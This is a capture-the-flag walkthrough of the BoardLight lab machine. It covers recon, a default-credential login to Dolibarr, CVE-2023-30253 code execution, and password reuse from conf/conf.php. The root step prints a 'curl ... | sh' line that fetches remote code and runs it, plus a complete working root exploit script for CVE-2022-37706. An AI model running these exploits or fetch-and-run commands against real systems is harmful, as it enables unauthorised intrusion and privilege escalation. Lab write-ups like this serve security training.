










# BoardLight

## Recon

### Nmap

<figure><figcaption></figcaption></figure>

Nothing is interesting in the <mark style="color:red;">**`nmap`**</mark> report.&#x20;

### Web app

I visited the page and tried <mark style="color:red;">**`ffuf`**</mark>to scan the hidden directories:&#x20;

<figure><figcaption></figcaption></figure>

I have tried to scan the website subdomain but nothing happened, so I think there is another host for the page. \
After looking around the website I found this:&#x20;

<figure><figcaption></figcaption></figure>

Navigate to that host nothing changed. This might be the <mark style="color:red;">**`dev`**</mark> page of the IP before. So that we can scan the subdomain to see what is new:&#x20;

<figure><figcaption></figcaption></figure>

The <mark style="color:red;">**`crm`**</mark> subdomain was found. Navigate to that:

<figure><figcaption></figcaption></figure>

It brought me to the login page which uses <mark style="color:red;">**`Dolibarr`**</mark> software.&#x20;

## WWW-Data

[**Dolibarr**](https://www.dolibarr.org/) ERP CRM is an open-source, free software package for companies of any size, foundations, or freelancers. It includes different features for enterprise resource planning (ERP), customer relationship management (CRM), and other features for different activities

Try a basic login credential such as  <mark style="color:red;">**`admin:admin`**</mark> and we can go inside the page&#x20;

As we know the version of Dolibarr is 17.0.0 and we can easily find that is [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) which allows remote code execution by an authenticated user via an uppercase manipulation: <mark style="color:red;">**`<?PHP`**</mark> instead of <mark style="color:red;">**`<?php`**</mark> in injected data.

I'm using the exploit from [nikn0laty](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253):&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


There is another way to exploit CVE-2023-30253, which is using a PHP reverse shell instead of a Python exploit. You can read more in this [article](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253).


## &#x20;Larissa

I took some of my time to read through the Dolibarr [documents](https://wiki.dolibarr.org/index.php?title=Home) to understand them better and I know that the Dolibarr [configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) is <mark style="color:red;">**`conf/conf.php`**</mark> may contain the password of the next user we target.

<figure><figcaption></figcaption></figure>

Check <mark style="color:red;">**`/home`**</mark> and we will know the next target:&#x20;

<figure><figcaption></figcaption></figure>

I tried that password with the <mark style="color:red;">**`larissa`**</mark> user:&#x20;

<figure><figcaption></figcaption></figure>

And boom! Now we can access it as <mark style="color:red;">**`larissa`**</mark> user

## &#x20;Root

For the root user, I recommend using <mark style="color:red;">**`linpeas`**</mark> for **Privilege Escalation**

**Linux local Privilege Escalation Awesome Script** ([linPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md)) is a script that searches for possible paths to escalate privileges on Linux/Unix hosts.

Run <mark style="color:red;">**`linPEAS`**</mark> in victim&#x20;

```bash
sudo python3 -m http.server 8080 # Host
```

```bash
curl 10.10.10.10/linpeas.sh | sh # Victim
```

Execute it and wait for the report

<figure><figcaption></figcaption></figure>

We discovered it has <mark style="color:red;">**`enlightment_sys`**</mark> binary

[Enlightenment](https://www.enlightenment.org/about-enlightenment) is a Window Manager, Compositor, and Minimal Desktop for Linux (the primary platform), BSD, and any other compatible UNIX system. Its binary has one 0-day ([CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)), which will take any user to root privileges easily and instantly.

So I am using the exploit from [MaherAzzouzi](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) to exploit this:&#x20;

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

<figure><figcaption></figcaption></figure>

And we easily get <mark style="color:red;">**`root`**</mark> 🪄
